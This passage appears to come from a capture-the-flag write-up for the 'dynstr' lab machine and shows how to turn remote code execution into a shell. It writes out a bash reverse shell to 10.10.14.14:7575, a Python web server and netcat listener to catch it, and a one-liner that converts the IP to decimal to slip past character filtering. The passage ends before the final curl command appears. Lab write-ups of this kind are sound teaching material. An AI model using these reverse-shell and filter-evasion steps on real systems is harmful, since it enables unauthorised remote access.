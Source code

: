 [![rce_poc](/img/dynstr/rce_poc.png)](/img/dynstr/rce_poc.png)

To get a shell we will eliminate bad chars as much as possible. First we will create an index.html file with a reverse shell.

`index.html`
```bash
#!/bin/bash

bash -c 'bash -i >& /dev/tcp/10.10.14.14/7575 0>&1'
```

We serve it on our machine with a python webserver on port 80 and set up a listener on the port specified in `index.html`.

```
$ sudo python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```
$ nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
```

With preparations met we can now issue a curl request to our ip in decimal format to skip `.` and pipe the content over to sh. You can quickly convert your ip to decimal with the following one liner.

`ip-convert`
```
$ python -c "print(sum([int(x) * 256 ** i for i, x in enumerate('10.10.14.14'.split('.')[::-1])]))"
168431118
```
